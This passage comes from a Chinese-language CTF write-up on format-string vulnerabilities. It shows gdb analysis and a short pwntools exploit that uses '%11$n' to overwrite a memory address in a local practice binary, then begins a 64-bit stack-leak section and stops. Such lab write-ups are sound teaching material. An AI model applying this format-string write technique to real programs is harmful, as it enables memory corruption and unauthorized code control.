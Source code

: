 gdb 动调一下

[![](assets/1701612281-ad1a4e6c388ce840a98c64e807c15598.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223751-ac9ab46c-2578-1.png)

第一个方框里面是 printf() 的第一个参数

下面的方框是格式化字符串的参数，可以看到第 11 个参数在栈上写入了我们输入的字符串，所以我们也就知道了要修改哪个地方的内容了

exp：

```plain
from pwn import *
context(os='linux',arch='i386',log_level='debug')

io=process('./pwn')
elf=ELF('./pwn')
x_addr=0x0804A02C
payload=p32(x_addr)+b"%11$n"
io.sendline(payload)
io.interactive()
```

[![](assets/1701612281-23a49c4f8dc45cefbf56529e3af6a6cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223758-b0847d1a-2578-1.png)

#### fmtstr2

##### 泄露栈内存 (64 位的格式化字符串)

前期准备工作

[![](assets/1701612281-9ccedd5c3d8f4c93cf66e3cd5edd821f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223802-b2de732c-2578-1.png)
